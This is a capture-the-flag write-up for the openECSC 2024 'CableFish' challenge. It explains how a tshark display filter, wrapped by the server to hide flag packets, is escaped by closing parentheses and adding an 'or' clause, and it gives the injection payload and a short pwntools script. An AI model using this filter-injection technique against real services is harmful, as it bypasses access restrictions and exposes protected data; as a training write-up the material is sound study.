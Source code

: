 # openECSC 2024 - Round 1

## [misc] CableFish (594 solves)
Welcome to our platform! Here you can do traffic analysis via TCP, isn't it awesome?

Just specify your filter, we will sanitize it (we want to make sure no sensitive data will be leaked) and you will be given the traffic!

This is a remote challenge, you can connect with:

`nc cablefish.challs.open.ecsc2024.it 38005`

Author: Matteo Protopapa <@matpro>

## Overview

The challenge description gives us a netcat endpoint. The server asks us a filter, that is used with tshark in order to display some packets of a network capture. The filter is modified so that we cannot read the packets containing `flag_placeholder`.

## Solution

In order to find the flag, we have to read the blacklisted packets. This can be easily done injecting special characters, similarly to the single quote in SQL injections. In fact, the "sanitized" filter is obtained wrapping the filter provided by the user with `((...) and (not frame contains "flag_placeholder"))`. By closing the parenthesis two times, we can obtain an unconstrained filter. We fix syntax error by reopening the parenthesis, just after the insertion of an `or` operator (so that the two parts of the filter are independent). There are multiple working payloads, for example `frame contains "flag_placeholder")) or ((udp`, resulting in `((frame contains "flag_placeholder")) or ((udp) and (not frame contains "flag_placeholder"))`.

## Exploit

```python
r = remote(HOST, PORT)
r.recvuntil(b'filter: ')
r.sendline(b'frame contains "flag_placeholder")) or ((udp')
r.recvuntil(b'))\n\n')
print(r.recvall(timeout=5))
```
